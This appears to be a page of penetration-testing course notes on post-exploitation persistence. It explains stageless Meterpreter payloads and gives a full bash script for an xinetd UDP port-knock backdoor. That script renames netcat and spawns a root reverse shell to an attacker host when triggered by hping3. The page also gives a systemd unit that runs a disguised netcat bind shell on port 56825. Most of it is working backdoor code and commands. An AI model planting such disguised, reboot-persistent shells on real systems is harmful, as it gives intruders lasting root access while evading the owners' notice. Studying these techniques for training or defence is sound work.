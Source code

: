 (20/40) *Stageless payloads*.
To mitigate the instability issues with Meterpreter payloads (Meterpreter session died), we can use stageless payloads. They include the payload within the binary, rather than being pushed to the target system via the handler once a connection is established.
For the name convention in Metasploit, we have that `windows/meterpreter/reverse_tcp` is staged and `windows/meterpreter_reverse_tcp` is stageless.

(24/40) *Custom services*.
Persistence methods using already built-in mechanisms of Linux operating system.

(25/40) *Xinetd UDP portknock backdoor*.
We can utilize the `xinetd` daemon that listens (for example on an UDP port) for incoming requests, and then when a specific request arrive (a single UDP packet), we can execute a command of our choosing (a netcat reverse shell).
It is called portknock backdoor because once we knock it gives us an immediate reverse shell backdoor.
Since `xinetd` is built-in we do not need any third-party software, and also we have reboot persistence.
When executed, the Bash script `xinetd_server.sh` creates a custom xinetd service listening on an UDP (e.g. 65534) port. Furthermore, it obscures the `nc` binary copying it into a different location.
`nc -nl -p 4444`: to start up a netcat listener on the attacker machine.
`hping3 -2 -c 1 <TargetIP> -p 65534`: to send a single UDP packet, triggering the reverse shell connection.
`./xinetd_server.sh`: to execute the script and start the xinetd service.
`cat xinetd_server.sh`:
```
#!/bin/bash

cp /bin/nc /bin/service-udp

echo "service service-udp" > /etc/xinetd.d/service-udp
echo "{" >> /etc/xinetd.d/service-udp
echo "			server = /bin/service-udp" >> /etc/xinetd.d/service-udp
echo "			server_args = <AttackerIP> <AttackerPort> -e /bin/bash" >> /etc/xinetd.d/service-udp
echo "			protocol = udp" >> /etc/xinetd.d/service-udp
echo "			user = root" >> /etc/xinetd.d/service-udp
echo "			socket_type = dgram" >> /etc/xinetd.d/service-udp
echo "			wait = yes" >> /etc/xinetd.d/service-udp
echo "			flags = IPv4" >> /etc/xinetd.d/service-udp
echo "}" >> /etc/xinetd.d/service-udp

echo "service-udp	65534/udp	# service-udp" >> /etc/services

/etc/init.d/xinetd stop
/etc/init.d/xinetd start
```

(32/40) *Systemd Netcat bind shell*.
Also `systemd` is a built-in and assures persistence through reboots.
The process is similar to the xinetd backdoor, but instead of a reverse shell, this one creates a bind shell.
`cp /bin/nc /lib/systemd/systemd-service`: to obscure the `nc` binary.
To create a new systemd service: `nano /lib/systemd/system/systemd.service`:
```
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = /lib/systemd/systemd-service -nl -p 56825 -v -e /bin/sh
[Install]
WantedBy = multi-user.target
```
It creates a bind shell on 56825 TCP port.
`systemctl enable systemd.service`, `systemctl start systemd.service`: to start the service.
`netstat -auntp | grep 56825 `: to check that the custom service is listening.
